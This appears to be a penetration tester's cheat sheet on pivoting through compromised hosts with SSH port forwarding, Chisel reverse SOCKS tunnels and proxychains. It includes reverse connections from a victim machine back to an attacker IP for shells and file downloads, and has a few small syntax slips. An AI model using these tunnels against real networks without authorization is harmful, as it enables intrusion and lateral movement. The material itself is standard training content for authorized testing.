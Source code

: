 ## SSH Port Forwarding
###### SSH Local Port Forward
`ssh -L -N <local-listener-port>:<target-ip>:<remote-port> username@remotehost`
###### SSH Dynamic Port Forward
`ssh -D <local-port> username@remotehost`
**Note:** From here, access any other port on any other host that 'remotehost' has access to through that single port. This means that if we have set up a dynamic port forward from a compromised machine to a second compromised machine that has further access, our original attack machine can access the specified `<local-port>` using [[#SSH Dynamic Port Forward|proxychains]].
###### SSH Remote Port Forward
`ssh -N -R 127.0.0.1:<local-listener-port>:<target-ip>:<remote-port> kali@<your-ip>`
**Note:** This connection is made from an intermediary machine, between the attack machine and the target machine but with routes to both. The attack machine can then access the remote target port through the local IP and listener port.
###### SSH Remote Dynamic Port Forward
`ssh -N -R <proxy-port> kali@<your-ip>`
This initiates a reverse connection and binds a SOCKS proxy port to the local interface on the attack machine. Configure [[#Remote Dynamic Port Forward Proxy|proxychains]] to forward traffic through the proxy and access remote targets that are routable by the intermediary machine.

---
## Chisel
###### Set up Chisel Server
`chisel server --port <listener-port> --reverse`
###### Check Proxy Status
`sudo ss -ntplu`
**Note:** Identify the local port here for adding to the [[#Remote Dynamic Port Forward Proxy|proxychains]] config. Use the Remote Dynamic example.
###### Execute Chisel on Client
`./chisel client <attack-ip>:<listener-port> R:socks`
###### Execute Commands via the Proxy
`proxychains ssh <user>@<remote-ip>`
###### Forward specific port from attack machine through pivot machine
`.\chisel.exe client 192.168.45.250:10000 R:socks 0.0.0.0:<attack-ip>:9999
**Note:** Now the victim machine can communicate with the attack machine via port 9999 for things like shells, downloading files from the python3 webserver, etc.

---
## SOCKS Proxy
Modify the SOCKS proxy to point at the port you want:
`nano /etc/proxychains4.conf`
###### Dynamic Port Forward Proxy
`socks5 192.168.188.63 9999` 
###### Remote Dynamic Port Forward Proxy
`socks5 127.0.0.1 9998`C
**Note:**  Run your tool with proxychains in front of it to send all traffic through that port instead:
`proxychains nmap -sT 172.168.188.63` Where 172.168.188.63 is a machine that can only be reached through your intermediary proxy.